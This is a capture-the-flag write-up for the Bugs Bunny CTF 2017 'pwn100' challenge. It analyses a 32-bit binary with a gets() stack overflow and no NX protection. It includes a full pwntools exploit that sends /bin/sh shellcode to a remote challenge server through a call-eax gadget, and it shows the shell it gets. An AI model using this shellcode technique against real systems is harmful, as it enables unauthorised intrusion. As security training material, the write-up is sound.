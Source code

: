 ```yaml
---
title: pwn100 (pwnage 100)
category: bugs_bunny_ctf_2k17
author_member: muffinx
show_comments: false
---
```


Binary type (file linux command):

```
file pwn100
pwn100: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4eed8d04991f7b37ef1e309f1ecc983d7ff84333, not stripped
```

Binary security measurements (gdb-peda checksec):

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

The functionality is pretty straight forward:

```cpp
char *docopy()
{
  char s; // [sp+10h] [bp-18h]@1

  return gets(&s);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  docopy();
  return 0;
}
```

So just a basic stack overflow.
The only function available to us is gets().
Looking at the segments there is no wx(write/execute) segment which could be used to copy data to with gets.

```
.init         080482B0 080482D3 R . X . L dword 0001 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.plt          080482E0 08048320 R . X . L para  0002 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.text         08048320 080484C2 R . X . L para  0003 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini         080484C4 080484D8 R . X . L dword 0004 public CODE  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.rodata       080484D8 080484E0 R . . . L dword 0005 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame_hdr 080484E0 08048514 R . . . L dword 0006 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.eh_frame     08048514 080485E4 R . . . L dword 0007 public CONST 32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.init_array   08049F08 08049F0C R W . . L dword 0008 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.fini_array   08049F0C 08049F10 R W . . L dword 0009 public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.jcr          08049F10 08049F14 R W . . L dword 000A public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got          08049FFC 0804A000 R W . . L dword 000B public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.got.plt      0804A000 0804A018 R W . . L dword 000C public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.data         0804A018 0804A020 R W . . L dword 000D public DATA  32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
.bss          0804A020 0804A024 R W . . L byte  000E public BSS   32 FFFFFFFF FFFFFFFF 000D     FFFFFFFF FFFFFFFF
extern        0804A024 0804A044 ? ? ? . L para  000F public       32 FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF FFFFFFFF
```

So we have to execute our shellcode on the stack, which is actually possible since no NX is activated. So let's use some rop to jump into the stack.

When we look at the registers before the ret, we can see that eax actually points to our input.

```
EAX: 0xffffd470 ('A' <repeats 12 times>, "a")
EBX: 0xf7fa3000 --> 0x16fda8
ECX: 0xfbad2288
EDX: 0xf7fa4864 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xffffd488 --> 0xffffd498 --> 0x0
ESP: 0xffffd460 --> 0xffffd470 ('A' <repeats 12 times>, "a")
EIP: 0x804842e (<docopy+17>:	leave)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048423 <docopy+6>:	lea    eax,[ebp-0x18]
   0x8048426 <docopy+9>:	mov    DWORD PTR [esp],eax
   0x8048429 <docopy+12>:	call   0x80482f0 <gets@plt>
=> 0x804842e <docopy+17>:	leave  
```

I found a ropgadget with that we can jump into our placed shellcode:

```
ropgadget --binary pwn100
0x08048386 : call eax
```

Resulting in this exploit:


```python
#!/usr/bin/env python

from pwn import *
context(arch = 'i386', os = 'linux')

#r = process('./pwn100')
r = remote('54.153.19.139', 5252)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0804842F
#continue
#''')

payload = asm('xor eax,eax')
payload += asm('xor ecx,ecx')
payload += asm('xor edx,edx')
payload += asm('xor esi,esi')
payload += asm('mov eax,0x0b')
payload += asm('lea ebx,[esp-8]')
payload += asm('int 0x80')
payload += '/bin/sh\x00'

payload = ('\x90' * (28-len(payload))) + payload
payload += p32(0x08048386) # call EAX


r.sendline(payload)
r.interactive()
```

As you can see I used the shellcoding features of pwntools to build a working shellcode.
The "/bin/sh" string is at the end of the shellcode and the string pointer to it will be put
into ebx by using:

```
lea ebx,[esp-8]
```

Finally we got a shell:

```
$ cat /home/pwn100/flag
Bugs_Bunny{ohhhh_you_look_you_are_gooD_hacker_Maybe_Iknow_you:p}
```

